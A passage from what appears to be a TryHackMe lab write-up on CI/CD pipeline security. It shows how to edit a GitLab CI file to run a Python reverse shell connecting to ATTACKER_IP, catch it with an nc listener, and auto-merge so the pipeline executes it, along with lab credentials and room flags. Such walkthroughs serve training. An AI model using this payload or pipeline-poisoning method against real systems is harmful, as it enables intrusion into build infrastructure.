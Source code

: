 ```
VPN
Token-based authentication
THM{1769f776-e03c-40b6-b2eb-b298297c15cc}
```
## Task 8: Securing the Build Pipeline
Now we have to login to gitlab with a different account `anatacker:Password1@`
![[Pasted image 20250227235812.png]]

Navigate to: http://gitlab.tryhackme.loc/ash/approval-test

Edit the `.github-ci.yml` file to add our script to download our reverse shell again. 
```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8082)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
![[Pasted image 20250228000942.png]]
Open a new `nc` listener.
![[Pasted image 20250228001046.png]]
Commit your changes and create a merge request. Then set the merge request to auto-merge. This will immediately add the code to main on successful running of the pipeline 
![[Pasted image 20250228000152.png]]
![[Pasted image 20250228001128.png]]
If we head back to our listener we should see that we have a shell
![[Pasted image 20250228001138.png]]
Let's find what machine we are on so we can give the hostname to the mother:
![[Pasted image 20250228001218.png]]
![[Pasted image 20250228001228.png]]
Now let's give the hostname `GRunner01` to the mother
![[Pasted image 20250228001300.png]]
Now let's do what the mother says by adding the flag
![[Pasted image 20250228001415.png]]
Finally let's verify with the mother to complete the room.
![[Pasted image 20250228001456.png]]
![[Pasted image 20250304210545.png]]
```
merge requests
limit runner access
THM{2411b26f-b213-462e-b94c-39d974e503e6}
```
## Task 9: Securing the Build Environment
Head to http://gitlab.tryhackme.loc/ash/environments/ and then in the side bar go to `Operate -> Environments` 
![[Pasted image 20250228001911.png]]
